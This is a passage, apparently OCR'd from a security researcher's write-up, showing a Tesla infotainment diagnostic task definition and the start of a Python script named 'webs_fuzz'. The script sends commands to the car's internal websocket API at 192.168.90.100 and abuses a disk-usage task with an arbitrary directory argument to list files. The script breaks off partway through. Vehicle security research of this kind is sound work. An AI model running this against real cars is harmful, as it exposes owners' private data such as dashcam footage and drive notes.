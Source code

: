 ```json
  "message": {
    "command": "execute",
    "args": {
      "name": "Common/tasks/TEST-BASH_ICE_X_CHECK-DISK-USAGE"
    }
  },
  "name": "TEST-BASH_ICE_X_CHECK-DISK-USAGE",
  "inputs": {
    "directories": {
      "datatype": "List",
      "default": [
        "/home/tesla/.Tesla/data/drivenotes",
        "/home/tesla/.Tesla/cache",
        "/home/tesla/.Tesla/cache/map_tiles_v3/tile_cache",
        "/home/tesla/.Tesla/data/screenshots",
        "/home/tesla/.crashlogs",
        "/home/tesla/media",
        "/home/ecallclient/.Tesla/data",
        "/home/gpsmanager/.Tesla/data",
        "/home/mediaserver/.Tesla/data",
        "/home/monitord/.Tesla/data",
        "/home/spotify/.Tesla/data",
        "/home/tesla/.Tesla/data",
        "/home/tuner/.Tesla/data",
        "/home/qtaudiod/.Tesla/data",
        "/home/mediaserver/cache",
        "/home/dashcam"
      ]
    },
    "parameters": {
      "datatype": "List",
      "default": [
        "-sm"
      ]
    }
  }
}
```


I wrote a script in python to list the files under a specific directory.

```python
import asyncio
import websockets
import json
import time
import sys

async def webs_fuzz():
    async with websockets.connect("ws://192.168.90.100:8080/api/v1/products/current/messages/commands") as websocket:
        msg = {
                "command":"execute",
                "args":
                    {
                     "name":"Common/tasks/TEST-BASH_ICE_X_CHECK-DISK-USAGE",
                     "kw":
                        {
                            "directories":[sys.argv[1]],
                            "parameters":["-ahld100"]
                        }
                    },
                    "skip_vehicle_checks":"false",
```